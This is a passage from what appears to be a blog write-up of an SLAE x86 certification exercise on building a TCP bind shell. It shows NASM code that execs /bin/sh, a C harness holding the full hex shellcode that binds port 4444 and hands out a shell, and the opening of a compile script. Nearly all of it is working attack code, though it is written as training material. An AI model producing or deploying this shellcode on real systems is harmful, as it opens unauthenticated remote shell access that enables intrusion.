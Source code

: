 
    ; execl("/bin/sh", NULL, NULL);
    push edx        ; null terminate
    push 0x68732F2F ; hs//
    push 0x6E69622F ; nib/
    mov ebx, esp    ; Load executable path into EBX
    xor eax, eax    ; Clear EAX
    mov al, 0xB     ; EXECVE syscall
    xor ecx, ecx    ; Clear ECX
    int 0x80
{% endhighlight %}

### shellcode.c
{% highlight c %}
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] =
    "\x31\xdb\xf7\xe3\xb0\x66\x89\xc7\x43\x52\x6a\x01"
    "\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66"
    "\xb9\x11\x5c\xc1\xe1\x10\x80\xc9\x02\x51\x89\xe1"
    "\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\xd1\xe3"
    "\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x56"
    "\x89\xe1\xcd\x80\x93\x31\xc9\xb0\x3f\xcd\x80\x41"
    "\x80\xf9\x03\x7e\xf6\x52\x68\x2f\x2f\x73\x68\x68"
    "\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\x31\xc9"
    "\xcd\x80";

int main (int argc, char **argv) {
    printf("Shellcode Length:  %d\n", strlen(shellcode));

    int (*ret)() = (int(*)())shellcode;
    ret();
}
{% endhighlight %}

## Compiling
To help with changing the port and recompiling both the C and ASM
implementations, I've written a script that accepts the new port as a command
line argument:

{% highlight bash %}
#!/bin/bash

# SLAE x86 Exam #1: Bind Shell
#
# compile.sh: Update port if specified, then compile ${NAME}.nasm,
# ${NAME}.c, and shellcode.c.
#
# Author: Kerry Milan
#         SLAE-1260
#         me@kerrymilan.com
#